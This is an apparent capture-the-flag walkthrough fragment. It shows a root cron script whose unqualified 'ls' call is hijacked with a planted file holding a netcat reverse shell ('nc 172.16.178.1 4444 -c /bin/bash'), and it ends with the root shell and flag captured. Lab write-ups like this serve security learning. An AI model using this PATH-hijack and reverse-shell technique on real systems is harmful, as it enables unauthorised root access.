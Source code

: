 By listing the crontab file, it was identified that a shell script is being executed at boot time.

```console
jerome@jerome:/home/jerome$ tail -2 /etc/crontab
tail -2 /etc/crontab
@reboot         root    /bin/bash /usr/share/simulate.sh
@reboot         root    dhclient
```

It was noted in the script that it is possible to execute the **ls** command at jerome's home directory, since the command does not have its absolute path, there is the opportunity to hijack its path.

```console
jerome@jerome:/home/jerome$ cat /usr/share/simulate.sh
cat /usr/share/simulate.sh
#
# This script simulates human behaviour from the root account
#

while true
do
    cd /home/jerome;
    ls;
    sleep 120;
done
```

## Privilege Escalation
### Cron Job

At jerome's home directory, create the **ls** file with the netcat reverse shell and add execute permissions to it.

```console
jerome@jerome:/home/jerome$ echo "nc 172.16.178.1 4444 -c /bin/bash" > ls
echo "nc 172.16.178.1 4444 -c /bin/bash" > ls
jerome@jerome:/home/jerome$ chmod +x ls
chmod +x ls
```

Start a netcat listener on port 4444, reboot the machine and a root shell was received.

```console
root@kali:~# nc -vlnp 4444
listening on [any] 4444 ...
connect to [172.16.178.1] from (UNKNOWN) [172.16.178.132] 42766
script -qc /bin/bash /dev/null
root@jerome:/home/jerome# cd
cd
root@jerome:~# cat flag.txt
cat flag.txt
f60532cf8a
```
